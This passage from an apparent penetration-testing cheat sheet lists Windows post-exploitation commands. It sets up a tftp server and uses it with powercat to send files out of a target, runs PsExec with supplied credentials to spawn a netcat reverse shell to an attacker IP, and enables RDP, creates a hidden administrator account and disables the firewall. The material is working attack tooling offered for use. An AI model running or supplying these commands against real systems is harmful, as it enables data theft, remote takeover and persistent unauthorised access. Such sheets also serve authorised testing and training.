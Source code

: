 #### Upload through tftp (over udp)
Install tftp on kali
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On windows client to send file
```
tftp -i <IP> put important.docx
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <ATTACKER IP> <ATTACKER PORT> -e cmd.exe
```

#### Enable RDP and create user to login
```
#Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#Enable more then 1 user login
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

#Add user to RDP group
net user <USER> <PASS> /add /Y
net localgroup administrators <USER> /add
net localgroup "Remote Desktop Users" <USER> /add

#Disable firewall
netsh advfirewall set allprofiles state off

#RDP to machine
xfreerdp /u:<USER> /p:<PASS> /v:<TARGET>
```